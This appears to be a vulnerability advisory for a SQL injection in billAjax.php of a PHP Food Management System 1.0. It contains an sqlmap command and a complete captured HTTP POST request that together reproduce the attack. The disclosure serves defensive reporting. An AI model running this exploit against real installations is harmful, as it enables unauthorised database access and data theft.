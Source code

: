  Food Management System SQL Injection Vulnerability 
 Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: www.kashipara.com/ 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

 Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\billAjax.php 
![img](https://cdn-images-1.medium.com/max/900/1*dq-5azLyclaEms0ZSHPrtg.png)



 The $post array contains data passed from the client without any validation, cleanup, or escape processing.  An attack can construct malicious input to inject arbitrary SQL statements and perform unauthorize actions. 

 SQLmap： 

![img](https://cdn-images-1.medium.com/max/900/1*dq-5azLyclaEms0ZSHPrtg.png)

 SQLMAP command: 
 python sqlmap.py -r 2.txt --dbms=mysql 
 Complete data package: 

```shell
POST /chopstic1/billAjax.php HTTP/1.1
Host: localhost
Content-Length: 333
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/ItemDetails.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

custmer_details=1&price_type=item_price_retl&chk_in_date=03-01-2024&transpotation_name=&totalAmount=0&itemype%5B%5D=5&item_name%5B%5D=39&item_price%5B%5D=0&initialprice%5B%5D=0&itemnumber%5B%5D=1asd&itemype%5B%5D=6&item_name%5B%5D=43&item_price%5B%5D=0&initialprice%5B%5D=0&itemnumber%5B%5D=1aas&pay_cost=asasas&subButton=Place+Order
```

